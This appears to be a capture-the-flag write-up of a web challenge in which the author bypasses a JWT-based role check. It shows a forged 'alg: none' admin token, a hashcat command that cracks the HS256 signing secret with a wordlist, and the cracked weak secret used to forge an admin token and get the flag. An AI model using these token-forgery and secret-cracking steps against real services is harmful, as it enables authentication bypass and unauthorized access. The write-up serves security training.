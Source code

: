# Super Admin

The challenge provides the following url: https://bluehens-web-cookies.chals.io/

![home](super_admin_1.png)

After a little of anaylisis on requests using Burpsuite, i noticed the following:

1. the **"User"** button triggers a request for a new JWT token containing the following attributes:

    ```json
    {
    "alg": "HS256",
    "typ": "JWT"
    },
    {
    "role": "user",
    "iat": 1698755867
    }
    ```

2. the **"Go To Profile**" button is showing the personal page of the user according to its role, which is retrieved from the jwt token itself

I first tried to forge a JWT token in the following way:

```json
{
"alg": "none",
"typ": "JWT"
},
{
"role": "admin",
"iat": 1698755867
}
```
    
     eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJyb2xlIjoiYWRtaW4iLCJpYXQiOjE2OTg3NTU4Njd9.

but it didn't work; it was clear at this point that the token must be correctly signed in order to be accepted.

I used Hashcat to perform a dictionary attack on the server JWT token and try recover the password used to perform the signature:

    hashcat -a 0 -m 16500 "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoidXNlciIsImlhdCI6MTY5ODc1NTg2N30.5UFbyVeIZKq6aSffUWMZNmehBCLJm6HlesdJ1HuJcpk" rockyou.txt

and it worked: 

    eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoidXNlciIsImlhdCI6MTY5ODUzMDc0NX0.yJpwNhW6KG2ATDFg5Utkcv2wDDJ_cRyWXf25uCaFufo:password1

At this point i was able to forge a valid "admin" JWT and obtain the flag:

    HTMLUDCTF{k33p_17_51mp13_57up1d_15_4_l1e}

